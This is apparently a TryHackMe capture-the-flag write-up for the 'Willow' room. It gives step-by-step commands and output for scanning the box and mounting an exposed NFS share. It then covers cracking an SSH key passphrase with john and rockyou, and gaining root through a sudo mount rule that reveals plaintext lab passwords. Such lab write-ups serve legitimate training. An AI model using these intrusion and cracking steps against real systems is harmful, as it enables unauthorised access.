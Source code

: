 # Willow

## nmap scan
nmap -sC -sV -A IP -v

INITIAL
```
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))                                          
| http-methods:                                                                                
|_  Supported Methods: GET HEAD POST OPTIONS                                                   
|_http-server-header: Apache/2.4.10 (Debian)                                                   
|_http-title: Recovery Page                                                                    
111/tcp  open  rpcbind 2-4 (RPC #100000)                                                       
2049/tcp open  nfs_acl 2-3 (RPC #100227)
```

## gobuster
COMMON
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```

## webpage data decryption
> REDACTED

## probable username : REDACTED

# 1. user.txt

	1. search for possible nfs mounts `showmount -e IP`
```
Export list for 10.10.208.225:                                                                  
/var/failsafe *
```
	2. mkdir tmp && mkdir /tmp/nfs
		1. sudo mount -t nfs IP:/var/failsafe ./tmp/nfs
	
  3. ls -la ./tmp/nfs
```
total 8
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 1 user   user       6 Feb 25 19:29 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys
```

	4. cat ./tmp/nfs/rsa_keys
```
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

	5. use this site https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
		1. with decryption key : `61527`
		2. and with modulus : `37627`
	
  6. use ssh to john `python2 /usr/share/john/ssh2john.py rsakey > rsaHASH`
	
  7. use john `john rsakey -w=/usr/share/wordlists/rockyou.txt`
```
passphrase: wildflower
```
	
  8. ssh into the server using passphrase wildflower `ssh -i rsakey wildflower@IP`
	
	9. scp -i rsakey willow@IP:/user.jpg .

	10. open user.jpg flag is there fuck sake i spent half an hour using steghide and such on it this is a direct callout MuirlandOracle


```
THM{REDACTED}
```

# 2. root.txt

	1. sudo -l shows us the following
```
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*

```

	2. ls -la on /dev/ 
	
  3. we find an interesting directory called `hidden_backups`
	 
  4. looking for a place to mount this directory we check /mnt
  
	1. in /mnt we find an empty directory called creds lets mount hidden_backup in there

	2. sudo /bin/mount /dev/hidden_backup /mnt/creds/ ( used to mount hidden_backups into the creds directory )
	
  5. cat /mnt/creds/creds.txt
```
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```

	6. su root with root passwd
	
  7. change to root directory and cat root.txt
```
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```
	
  8. go back to the user.jpg and use steghide on it 
  
    1. `steghide --extract -sf user.jpg -xf userOUTPUT` 
    2. use the password for root as the passphrase and you get the flag
	
  9. cat userOUTPUT

```
THM{REDACTED}
```
